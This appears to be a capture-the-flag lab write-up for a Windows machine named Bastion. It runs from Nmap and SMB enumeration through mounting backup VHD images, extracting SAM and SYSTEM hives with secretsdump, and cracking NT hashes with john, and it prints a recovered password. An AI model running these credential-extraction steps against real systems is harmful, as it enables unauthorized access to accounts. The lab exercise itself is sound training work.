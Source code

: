 # Bastion

![image](https://user-images.githubusercontent.com/5285547/124922763-bdd69080-dff1-11eb-8d6f-a61503cb4e42.png)

## Nmap 

```
PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m58s, deviation: 1h09m14s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-08T14:41:29+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-08T12:41:28
|_  start_date: 2021-07-08T05:30:31
```

## Smb

```
smbclient -L \\10.10.10.134                   
Enter WORKGROUP\ac1d's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
```


/backups
```
smbclient \\\\10.10.10.134\\backups

smb: \> ls
  .                                   D        0  Thu Jul  8 08:39:38 2021
  ..                                  D        0  Thu Jul  8 08:39:38 2021
  note.txt                           AR      116  Tue Apr 16 11:10:09 2019
  OBFUEDPSHM                          D        0  Thu Jul  8 08:39:38 2021
  SDT65CB.tmp                         A        0  Fri Feb 22 12:43:08 2019
  WindowsImageBackup                 Dn        0  Fri Feb 22 12:44:02 2019
```

```
cat note.txt 

Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```

![image](https://user-images.githubusercontent.com/5285547/124925815-c086b500-dff4-11eb-85a6-d8fed8fef8ff.png)

We see some vhd files, but with the note.txt in mind, we should not try to copy them across as they are vrey large files.  
Instead we can mount them using the info here: https://vk9-sec.com/mount-extract-password-hashes-from-vhd-files/

```
sudo apt install libguestfs-tools -y
sudo mkdir /mnt/vhd 
ls -ld /mnt/vhd
sudo mount -t cifs //10.10.10.134/backups /mnt/vhd -o user,password=
cd "/mnt/vhd/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351"
```

This command takes a while so wait a bit. 
```
guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/any
cd /mnt/any
```

![image](https://user-images.githubusercontent.com/5285547/124927480-98985100-dff6-11eb-87df-9c50b57ff66f.png)


## Cracking SAM database files

Find the SAM database location:
```
cd /mnt/any/Windows/System32/config
cp SAM SYSTEM /tmp 
cd /tmp
```
```
impacket-secretsdump -sam SAM -system SYSTEM local > file
```
![image](https://user-images.githubusercontent.com/5285547/124928250-60454280-dff7-11eb-8a71-52581bbf9f9d.png)

```
john file.sam --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
bureaulampje     (L4mpje)
```










